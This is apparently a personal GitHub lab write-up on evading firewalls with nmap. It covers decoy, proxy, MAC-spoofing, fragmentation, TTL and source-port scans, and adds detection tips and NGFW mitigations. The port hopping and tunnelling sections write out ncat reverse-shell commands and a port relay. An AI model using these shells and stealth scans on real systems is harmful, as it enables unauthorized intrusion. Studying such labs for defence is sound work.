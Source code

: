 # Firewall Evasion
https://github.com/lm3nitro/Projects/edit/main/New/Firewall%20Evasion.md
A firewall is software or hardware that monitors the network traffic and compares it against a set of rules before passing or blocking it. One simple analogy is a guard or gatekeeper at the entrance of an event. This gatekeeper can check the ID of individuals against a list of allowed individuals before letting them enter (or leave).

![Pasted image 20240920140126](https://github.com/user-attachments/assets/e35edcc5-908a-4162-a05a-39b6ef3b888c)

Different types of firewalls are capable of inspecting various packet fields; however, the most basic firewall should be able to inspect at least the following fields:

+ Protocol
+ Source Address
+ Destination Address

Depending on the protocol field, the data in the IP datagram can be one of many options. Three common protocols are:

+ TCP
+ UDP
+ ICMP

![Pasted image 20240920140306](https://github.com/user-attachments/assets/d3494f55-000e-4af1-aec2-5cfb24f0853c)

In the case of TCP or UDP, the firewall should at least be able to check the TCP and UDP headers for:

+ Source Port Number
+ Destination Port Number

![Pasted image 20240920140426](https://github.com/user-attachments/assets/08e838e9-c9da-4da6-ab47-031de5b174e9)

In traditional firewalls (packet-filtering firewalls), everything is allowed and blocked mainly based on the following:

+ Protocol, such as TCP, UDP, and ICMP
+ IP source address
+ IP destination address
+ Source TCP or UDP port number
+ Destination TCP or UDP port number

### Scope:

While firewalls are crucial for network security and provide significant protection, they aren’t foolproof.In this exercise, I will go over several ways to evade a firewall. I will cover the following:

<details>
<summary><h3>Incomplete TCP Handshake<h3></summary>

The 3-way handshake is the process used to establish a TCP connection between a client and a server. It involves three steps: SYN, SYN-ACK, and ACK.  A half-open connection occurs when a connection is initiated but not fully established. 

![Pasted image 20240920150311](https://github.com/user-attachments/assets/76b0924e-ad3f-41be-91aa-b4c4a39b71e4)

Here I will be utilizing nmap to send half open connections to my target IP 10.10.100.39 (Windows Firewall):

```
nmap  -sS -F 10.10.100.39 -nnvvv
```

Based on the output of the scan, I was able to identify that TCP port 5357 was open associated with the service WSDAPI:

![Pasted image 20240920145403](https://github.com/user-attachments/assets/619458cd-ce8c-4d8d-b26f-209566273074)

Looking at the nmap scan traffic in Wireshark, I was able to see the behavior of the scan in real time:

![Pasted image 20240920145126](https://github.com/user-attachments/assets/33b349ad-f2df-4051-987b-edcf71e98661)

Here I can see that IP address 10.10.100.104 has generated and sent around 200 packets. The -F option in the command limits the scan to the top 100 common ports; moreover, each port is sent a second SYN packet if it does not reply to the first one. The source port number is chosen at random but is fixed. In the screenshot, you can see it is 63871

The total length of the IP packet is 44 bytes. There are 20 bytes for the IP header, which leaves 24 bytes for the TCP header. No data is sent via TCP.

Other factors observed in the traffic:

+ The Time to Live (TTL) is is changing in each packet.
+ The IP identification is changing is each packet
+ No errors are introduced in the checksum.

In this scenario, nmap sends a SYN request to the target, if the port is open, the target responds with a SYN-ACK packet, acknowledging the request to establish a connection. Normally, in a ligitimate request, the scanner would then complete the request with an ACK to complete the handshake. In this case, the target host has already shown which port is open. If nmap were to complete the connection, it would then have to worry about closing it. Instead of sending an ACK back to complete the handshake, the scanner sends an RST packet to close the connection prematurely.

In the screenshot below, we see the bahavior describe above for port 5357 which was previously identified:

![Pasted image 20240920150341](https://github.com/user-attachments/assets/eafc0b47-59aa-4925-8289-8439f6a8068c)

Nmap will classify a port as filtered if it receives specific ICMP error messages in response as seen in the screenshot below:

![Pasted image 20240920150957](https://github.com/user-attachments/assets/e1765030-7234-439f-a99f-399779d2af0c)

> [!NOTE]  
> Below is a summary of how nmap will interpret responses to a SYN probe:
> ![Pasted image 20240920151122](https://github.com/user-attachments/assets/744cf0e9-d6d7-4618-b3b3-1215258f27e0)

</details>

<details>
<summary><h3>Evasion via Decoy Scan<h3></summary>

You can conceal the scan using decoys. In an Nmap decoy scan, multiple decoy IP addresses are used alongside the real IP address to obfuscate the source of the scan. This makes it challenging for both the firewall and the target host to identify the origin of the port scan. 

Here I will use the following command with the decoy option to "hide" my real IP address:

```
nmap -sS -Pn -D 192.168.91.10,192.168.91.15,192.168.91.128 -F 192.168.91.130
```

After initiating the scan, I can see that it completes and that the target has a number of open ports:

![Pasted image 20240921123114](https://github.com/user-attachments/assets/42da0b3f-e28f-4619-992f-be24308e6307)

While looking at the Wireshark capture of the scan, I can see the expected behavior. Here we see that all 3 of the IP addresses in the command are reaching out with a SYN request to the host:

![Pasted image 20240921123403](https://github.com/user-attachments/assets/5550db8d-d32b-4240-b9f6-2ac22cae96d7)

However, one thing that we can note from the traffic above, although there are 3 different IP addresses sending SYN requests, only 1 sends the RST (the real IP). 

Another example of this is by setting Nmap to use random source IP addresses instead of explicitly specifying them:

```
map -sS -Pn -D RND,RND,192.168.91.128 -F 192.168.91.130
```

![Pasted image 20240921124912](https://github.com/user-attachments/assets/551b29ec-e9be-40a0-ac69-6fec116d136f)

### Finding the real IP behind the Decoy scan:

As noted earlier, only the real IP is linked to the RST packet. Another method for identifying the true source is that the target will send RST packets exclusively to this real IP address:

![Pasted image 20240921123604](https://github.com/user-attachments/assets/e07821b9-850d-4918-9447-6687f2277828)

When the target responds to the initial SYN requests, it may send back ACK packets if the port is open, but these responses will only reach the actual source IP. 

![Pasted image 20240921124326](https://github.com/user-attachments/assets/5a732df1-4476-46ac-a1a4-1ac630870b3d)

Here is a view of this behavior wiht a sinfle IP:

![Pasted image 20240921124444](https://github.com/user-attachments/assets/4ad665af-995a-4935-9834-185bec36878f)

### Summary:

Firewalls often look for unusual patterns of activity. A decoy scan can generate a seemingly normal level of traffic from various sources, making it less likely for the real scan to be flagged as suspicious.

In some cases, decoy scans can utilize IP spoofing techniques to make the decoy addresses appear legitimate, further complicating the firewall's ability to identify the real source.

</details>

<details>
<summary><h3>Evasion via HTTP Proxy<h3></summary>

For this scenario I set up a Netcat HTTP Proxy for NMAP:

![Pasted image 20240922143053](https://github.com/user-attachments/assets/c6d5437f-9d25-45f6-b235-d8b7dd290ad4)

I set it up and had it configured to listen on port 8081:

```
ncat -vv --listen 8081 --proxy-type http
```

![Pasted image 20240921201927](https://github.com/user-attachments/assets/9072c443-7501-4949-a0fc-cb8dd0ce8b06)

Verified that it was indeed listening:

![Pasted image 20240921201907](https://github.com/user-attachments/assets/297099b9-ed7a-4112-9ee0-b6a81f3b8975)

Next I performed a TCP Connect Scan (-sT):

A TCP Connect Scan is similar to that of a SYN scan. However, instead of aborting the half-open connection with a RST packet, it attempts to establish a full TCP connection with each port on the target machine. After the connection is successful, the scanner wil terminates the connection immediately with a RST packet. Below is a image to represent tis behavior:

<img width="717" alt="Screenshot 2024-10-25 at 8 59 04 PM" src="https://github.com/user-attachments/assets/27ebb0e2-af9c-4930-be8f-7f762b63bf94">

>#### Note: To use the --proxies option with Nmap, you need to include at least two scan techniques, such as -sT, -A, -sC, or -sV. Otherwise, Nmap will not be able to route the traffic through the proxy.

```
nmap  -sC -sV -Pn -p80  --proxies http://192.168.91.131:8081 192.168.91.130 --packet-trace -nnvvvv
```

![Pasted image 20240921204322](https://github.com/user-attachments/assets/62e12b62-9912-43bf-a773-2afd073c998e)

Traffic from the local nmap scanner:

![Pasted image 20240921204246](https://github.com/user-attachments/assets/e0e3f004-497a-4744-9a02-1b9fc9d74cf1)

I also used the `--packet-trace` option to information about the state of the connection:
 
![Pasted image 20240921211331](https://github.com/user-attachments/assets/3237440f-55fc-4d97-be9c-437237eb8eca)

Here I can see information on the target host such as open ports and running services:

![Pasted image 20240921211420](https://github.com/user-attachments/assets/a08cf613-21f6-4859-9304-d9cf94846c15)

### Detecting Scans via Proxy Servers:

Although there isn't a 100% reliable way to achieve this, there are indicators that can be seen in the headers that when present, can suggest that the request was routed from a proxy server:

+ via
+ forwarded
+ x-forwarded-for
+ client-ip: 

In trying to see how the traffic looks on the receiving end, I went to check the Wireshark traffic on the IIS (target) server: 

![Pasted image 20240921203356](https://github.com/user-attachments/assets/21462aab-9c7d-4186-97dc-a3a7c513aca9)

The CONNECT method is an HTTP request method used primarily to establish a tunnel to a server through an HTTP proxy. Taking a closer look into the traffic, I was able to see that here:

![Pasted image 20240921203332](https://github.com/user-attachments/assets/bb730138-3adf-44cf-ba54-ee4595caab34)

![Pasted image 20240921205656](https://github.com/user-attachments/assets/f58f190f-ec6f-455a-ab4f-2384592fcbc0)

### Summary:

In this exercise, I was successfully able to scan node 192.168.91.130 and detect it's operating system (Windows) and the service running (IIS Web Server) via a proxy sever using Nmap.

</details>

<details>
<summary><h3>Evasion via Mac Spoofing<h3></summary>

![Pasted image 20240922170340](https://github.com/user-attachments/assets/56585a8a-ff25-44c5-9cc5-52c07312abb5)

MAC spoofing is a technique often used by attackers to change the MAC address of their device to match that of another device on the network. This vulnerability allows them to evade security measures like MAC filtering and MAC-based access controls. Mac Spoofing can circumvent MAC filtering, allowing them to gain unauthorized access to the network by pretending to be a trusted device.

Below is a look at the frame and where both the destination and source MAC addresses can be found:

![Pasted image 20240921231109](https://github.com/user-attachments/assets/700bb0b7-b9d9-4682-98f3-ed9d2d3c7c5b)

Nmap allows you to spoof your MAC address using the option `--spoof-mac MAC_ADDRESS`. However, there are limitations. Spoofing works effectively only if your system is on the same network segment as the target host. If you are on a different network segment the target system will not receive your packets. Spoofing your MAC address to match a trusted device can potentially allow you to exploit vulnerabilities or gain unauthorized access.

In the exercise, I used the command below:

```
nmap -sS -Pn -p80 --spoof-mac deadbeef 192.168.91.130 --packet-trace --disable-arp-ping -nnvv
```

By using this command, I can see that my MAC address now includes `deadbeef`:

![Pasted image 20240921230527](https://github.com/user-attachments/assets/facb1002-5280-4bd5-89b5-732824af73ce)

In the Wireshark capture, I was also able to confirm that the MAC address had changed:

![Pasted image 20240921230718](https://github.com/user-attachments/assets/a251a877-a9e8-4e85-ab34-90d28bc730be)

### Warning Signs/Detection of MAC Spoofing Attacks:

Below is an example of how MAC spoofing looks in the network traffic. Here I analyzed traffic between the same 2 IP addresses, however, in the highlighted piece we can see that the MAC address changes:

![Pasted image 20240922171738](https://github.com/user-attachments/assets/bb17da92-de21-4b55-b473-710b8a522097)

Here are various red flags that may point to a MAC spoofing attack on a network. Some of these warnings include:

+ Duplicate MAC addresses
+ Unknown MAC addresses
+ Unusual ARP Activity
+ Unexpected network failures 

</details>

<details>
<summary><h3>Evasion via Fixed Port Number<h3></summary>

Scanning from a specific source port can be advantageous if you find that firewalls permit incoming packets from certain ports, such as 53 or 80. This strategy can help you navigate around firewall restrictions more effectively. 

### Firewall Rule

To get started, I created a firewall rule to allow traffic on the IIS server from a specific source port. To do this, I navigated to the Windows host and created a new firewall rule:

![Pasted image 20240922150229](https://github.com/user-attachments/assets/4613d30d-882b-471d-a75f-103032a94dbc)

![Pasted image 20240922150315](https://github.com/user-attachments/assets/4a644684-06b5-457b-999d-4b53d3fa4cab)

I then configured the rule do that the only allow traffic from specific source ports (8000 and 9999):

![Pasted image 20240922150726](https://github.com/user-attachments/assets/ba81035e-031a-48ea-a96d-d556854be2fa)

This rule will apply to all IPs:

![Pasted image 20240922150815](https://github.com/user-attachments/assets/5251819b-ec88-428d-9c58-631921b48f5d)

Allowed the connection:

![Pasted image 20240922150902](https://github.com/user-attachments/assets/7077eb7d-95b7-4ec6-8fc5-4ad6d1e62051)

![Pasted image 20240922150941](https://github.com/user-attachments/assets/eb58b0f1-ca6e-485d-9203-16436dcde6a1)

Named the rule:

![Pasted image 20240922151127](https://github.com/user-attachments/assets/4a39870e-4087-449e-8325-d1aa9ca6fab4)

I then confirmed the rule was in place:

![Pasted image 20240922151204](https://github.com/user-attachments/assets/fd9dee17-0ad4-437a-a9cf-cb566d716d9a)

### Testing

Now that the rule is configured, I tested against the firewall rule with Nmap:

```
nmap -sS -Pn -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922151449](https://github.com/user-attachments/assets/c861c976-65e3-4dba-978e-793537d0725f)

Based on the output from the scan, the port is showing as filtered since the traffic will be only allowed if its coming from a specific port number. I then ran another scan but, this time specifying a source port using the option `--source-port`:

```
nmap -sS -Pn --source-port 9999 -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922151741](https://github.com/user-attachments/assets/ce251585-a9d1-4647-8de4-979c3d04fe0e)

Based on the output, I can now see that the port is showing as open. 

</details>

<details>
<summary><h3>Evasion via Fragmentation, MTU, and Data Length<h3></summary>


Another way that you can evade a firewall is by controlling the packet size. By fragmenting packets, if neither the firewall nor the IDS/IPS reassemble the packet, it will most likely let it pass. This will make it so taht the target system will reassemble and process it.

### Fragmenting (8 Bytes)

One easy way to fragment your packets would be to use the -f option. This option will fragment the IP packet to carry only 8 bytes of data. Normally, the IP packets sent during a Nmap TCP port scan will hold 24 bytes, the TCP header. By limiting the IP data to 8 bytes, the 24 bytes of the TCP header will be divided across 3 IP packets.

```
nmap -sS -Pn -f 8  -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922154916](https://github.com/user-attachments/assets/e602a2d0-1c0d-40d1-b10e-972ce0b07f29)

Taking a look at Wireshrark and the traffic generated by the scan, I was able to confirm the behavior and the see the fragmentation:

![Pasted image 20240922154837](https://github.com/user-attachments/assets/ced0ab71-ca8e-4a3b-b29e-0190b8d74831)

### Fragmenting (16 Bytes):

Another option is using `-ff` which limits the IP data to 16 bytes. By running the following command `nmap -sS -Pn -ff -F MACHINE_IP`, the expectation is that the 24 bytes of the TCP header will be divided between two packets because `-ff` sets a maximum limit of 16 bytes.

```
nmap -sS -Pn -ff -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922155423](https://github.com/user-attachments/assets/5a09bce4-0f82-4c20-aeb9-a6343c80711a)

After running the scan, I could see the fragmentation and confirmed the size of 16 Bytes:

![Pasted image 20240922155525](https://github.com/user-attachments/assets/37d481e7-0850-4bfe-84cc-4c8f86045e7f)

### Fragmenting MTU:

Another effective way to fragment packets is by adjusting the MTU. In Nmap, the --mtu VALUE option specifies the number of bytes per IP packet, excluding the IP header size. The MTU value must always be a multiple of 8. It's important to know that MTU refers to the largest packet size that can be transmitted over a specific link-layer connection. Ethernet has an MTU of 1500 and is to not be confused with the `--mtu` option in nmap. 

Running Nmap with the option `--mtu 8` will be identical to using option `-f ` since in both the IP data will be limited to 8 bytes.

```
nmap -sS -Pn -mtu 8 -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922155925](https://github.com/user-attachments/assets/741d5d85-2b87-415b-86a7-df01388ce58f)

In Wireshark, I confirmed that the the packets were indeed fragmented, 8 bytes in size, and had the more fragments bit set:

![Pasted image 20240922155907](https://github.com/user-attachments/assets/e15a7300-4130-4730-b6b1-b895178bfb02)

### Packets with Specific Length:

There may be times where the firewall or IDS/IPS is able to detect and block your activities based on the size of the packets being sent. You can enhance the stealth of your port scanning by specifying a particular data length. Nmap allows you to set the length of the data carried within the IP packet using `--data-length VALUE`, the length should be a multiple of 8. As an example, I will be using a length of 64:

```
nmap -sS -Pn --data-length 64  -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922162841](https://github.com/user-attachments/assets/a92f7c89-c3da-4a1c-afe0-9b31b6aafd85)

I was also able to verify that the behavior wasjust as expected in Wireshark:

![Pasted image 20240922162745](https://github.com/user-attachments/assets/e1d6f488-5de0-4f26-83bb-c7eb6bdc7007)

</details>

<details>
<summary><h3>Evasion via Bad Checksum<h3></summary>

###  Wrong Checksum:

Another method that can be used to evade a firewall is to intentionally send a packet with a bad checksum. There are systems that will drop a packet with a bad checksum, however, there are others that won’t. To do this, nmap has the option `--badsum`:

```
nmap -sS -Pn --badsum -p80,3389 192.168.91.130 -nnvvv --packet-trace
```

![Pasted image 20240923113056](https://github.com/user-attachments/assets/ef80ed72-d799-4e50-ab27-0dc743ad0710)

Based on the output, we can see the that ports (80 and 3389) are being filtered. Overall, the results will depend significantly on the security measures in place on the target system and the nature of the network traffic. Monitoring the responses and comparing them to typical behavior can provide valuable insights into the security posture of the target environment. 

</details>

<details>
<summary><h3>Evasion via Modifying Header Fields<h3></summary>

Nmap allows you to control various header fields that might help evade the firewall. You can:

+ You can set the TTL value with the `--ttl` option.
+ Send packets with specified IP options:
+ Use `--badsum` to send packets with incorrect TCP/UDP checksums.

I will go over TTL and IP options below:

### Set TTL :

The `--ttl` option in Nmap autellows you to specify TTL value for the packets sent during a scan. TTL is a field in the IP header that specifies the maximum number of hops a packet can take before it is discarded. Each router that forwards the packet decrements the TTL value by one. This option might be useful if you think the default TTL exposes your port scan activities.

```
nmap -sS -Pn --ttl 1 -p80,3389 192.168.91.130 -nnvvv --packet-trace
```

![Pasted image 20240923105624](https://github.com/user-attachments/assets/75d7f9ea-d3be-4ad6-8124-e8186a6143eb)

Based on the output above, I was able to see the open ports. 

![Pasted image 20240923105749](https://github.com/user-attachments/assets/fa10c75f-ab9b-4554-a4f8-cb24a9945cd9)

Viewing the traffic in Wireshark, I was able to confirm the TTL behavior. In this case, the TTLS is showing 1 as specified in the command above. 

### Set IP Options:

The IP Options field is a flexible part of the IP header that allows for additional features or instructions to be specified for packet processing. Nmap lets you customize the IP Options field using the `--ip-options HEX_STRING` option. The 'HEX_STRING` option defines the exact bytes that will populate the IP Options field. Each byte is expressed in hexadecimal format, where HH represents two hexadecimal digits. For example, the byte 0x1A would be written as \x1A.

A shortcut provided by Nmap is using the letters to make your requests:

+ R to record-route.
+ T to record-timestamp.
+ U to record-route and record-timestamp.
+ L for loose source routing and needs to be followed by a list of IP addresses separated by space.
+ S for strict source routing and needs to be followed by a list of IP addresses separated by space.

The Record Route option is one of the IP options that can be specified in the IP header. It allows the sender to keep track of the route taken by the packet through the network, recording the IP addresses of the routers that forward the packet. It can be helpful if you want to try to make your packets take a particular route to avoid a specific security system.

Here I used this option:

```
nmap -sS -Pn --ip-options R -p80,3389 192.168.91.130 -nnvvv --packet-trace
```

![Pasted image 20240923112809](https://github.com/user-attachments/assets/e571ab7e-9fc4-40ff-a835-65a46e6b3690)

Below are is the scan related traffic where I was able to see that it did have the IP option R available:

![Pasted image 20240923112706](https://github.com/user-attachments/assets/61da2c44-109c-4251-92cb-2f5bb7a1814a)

</details>

<details>
<summary><h3>Evasion Using Port Hopping<h3></summary>

 #### Evasion Using Port Hopping:

Three common firewall evasion techniques are:

Port hopping
Port tunneling
Use of non-standard ports

Port hopping is a technique where an application hops from one port to another till it can establish and maintain a connection. In other words, the application might try different ports till it can successfully establish a connection. Some “legitimate” applications use this technique to evade firewalls. In the following, the client kept trying different ports to reach the server till it discovered a destination port not blocked by the firewall.



![Pasted image 20240924211328](https://github.com/user-attachments/assets/ce0ff043-9721-4957-8f62-aadef3175248)


### Setting up a listening our client:

-l listens for incoming connections
-v provides verbose details (optional)
-n does not resolve hostnames via DNS (optional)
-p specifies the port number to use

ncat -lvnp 21

![Pasted image 20240924133907](https://github.com/user-attachments/assets/eff7886b-ecbc-4170-a582-4ef72377c726)


### Connecting to the server:

Network trace from the client reaching the server on port 8080:

![Pasted image 20240924134217](https://github.com/user-attachments/assets/0039045a-ae64-4763-90f1-6262db7c7184)


Note: In this scenario, I'm going to be exploiting a vulnerable service that allows remote code execution (RCE) or a misconfiguration on the web application running on port 8080 to execute some code or command of my choice.


ncat 10.10.142.3 21 -c /bin/bash
![Pasted image 20240924134503](https://github.com/user-attachments/assets/77561853-f084-400a-8585-8f77461eb83f)

The command was executed usefully, we can the Http POST and the  ACK coming from the server 
![Pasted image 20240924134217](https://github.com/user-attachments/assets/e733f554-52c1-48a3-830f-9088e3e7b3c8)


Detail information about the Http POST
![Pasted image 20240924134054](https://github.com/user-attachments/assets/e2ab77dd-b3bd-4309-82a7-803c2397e8cb)



### Detecting a reverse shell from the server:

Tips:

 netstat -anp | grep ESTABLISHED 

This will display all established connections, and the the associated process or program. By filtering for established connections, you can focus on active connections. 

### Netcat network traffic coming from the server:

![Pasted image 20240924134356](https://github.com/user-attachments/assets/3f0787b6-3a76-47a4-9c85-cf34ded5b536)


We can see that the server's firewall is allowing port 21 outbound.  

</details>

<details>
<summary><h3>Evasion Using Port Tunnelling<h3></summary>
#### Evasion Using Port Tunnelling:


Port tunneling is also known as port forwarding and port mapping. In simple terms, this technique forwards the packets sent to one destination port to another destination port. For instance, packets sent to port 80 on one system are forwarded to port 8080 on another system.


Port Tunneling Using Ncat:

![Pasted image 20240924211930](https://github.com/user-attachments/assets/b0c7257e-5a3b-4578-89b0-cac9c37b705f)

### Creating a ncat listening on port 21 on the client:

ncat -lvnp 21

![Pasted image 20240924153722](https://github.com/user-attachments/assets/0a86dada-cfa9-4f16-8e46-4fef33e8a5e7)


### Accessing the webserver and passing the Netcat command to spawn a reverse shell:


ncat 10.10.25.138  21 -e /bin/bash

![Pasted image 20240924160925](https://github.com/user-attachments/assets/3ae5affe-ea8f-435c-a0a1-ca5806c718c1)


Listing available services / ports that are opened:

![Pasted image 20240924160848](https://github.com/user-attachments/assets/3dbd9dc5-ac4a-488a-9ccf-f5efdd619848)


The client can't reach the server over the network on port 80 or 8008.


![Pasted image 20240924163354](https://github.com/user-attachments/assets/de869533-6b2f-47bf-a04d-5cd4c9cdd962)

Since I'm connected to the server via a reverse shell, I can open the local webserver running on port 80

ncat -lvnp 8008 -c "ncat 10.10.90.19 80"


![Pasted image 20240924163735](https://github.com/user-attachments/assets/be94001b-b074-49f1-9359-c598cf6e7f4b)


Now I'm able to reach the server on port 8008 , I can se some 200 codes coming from the web App:

![Pasted image 20240924163942](https://github.com/user-attachments/assets/ecb4a1ec-ea2f-47af-aee7-419875cccee0)



![Pasted image 20240924164127](https://github.com/user-attachments/assets/05f29650-4685-4631-aba3-9e379795630d)


Connection state at the Web-Server show the port are bind:


![Pasted image 20240924164556](https://github.com/user-attachments/assets/a34ec769-abaa-4668-b082-276333c3b4bb)


</details>

<details>
<summary><h3>Evasion via using a non-standard port<h3></summary>

### Evasion Using Non-Standard Ports:

Creating a backdoor via the specified port number that lets you interact with the Bash shell.

-e or --exec executes the given command

/bin/bash location of the command we want to execute

Considering the case that we have a firewall, it is not enough to use ncat to create a backdoor unless we can connect to the listening port number. Moreover, unless we run ncat as a privileged user, root, or using sudo, we cannot use port numbers below 1024.

\
### Mitigations:

Next-Generation Firewall (NGFW:

Traditional firewalls, such as packet-filtering firewalls, expect a port number to dictate the protocol being used and identify the application. Consequently, if you want to block an application, you need to block a port. Unfortunately, this is no longer valid as many applications camouflage themselves using ports assigned for other applications. 


![Pasted image 20240924210345](https://github.com/user-attachments/assets/fcdd09d7-b8dc-4efd-813a-74e6b9305aa9)



In other words, a port number is no longer enough nor reliable to identify the application being used. Add to this the pervasive use of encryption, for example, via SSL/TLS.


![Pasted image 20240924210137](https://github.com/user-attachments/assets/356b1515-1882-496a-9da8-27e824e290fa)

Next-Generation Firewall (NGFW) is designed to handle the new challenges facing modern enterprises. For instance, some of NGFW capabilities include:

Integrate a firewall and a real-time Intrusion Prevention System (IPS). It can stop any detected threat in real-time.

Identify users and their traffic. It can enforce the security policy per-user or per-group basis.

Identify the applications and protocols regardless of the port number being used.

Identify the content being transmitted. It can enforce the security policy in case any violating content is detected.

Ability to decrypt SSL/TLS and SSH traffic. For instance, it restricts evasive techniques built around encryption to transfer malicious files.

A properly configured and deployed NGFW renders many attacks useless.

</details>






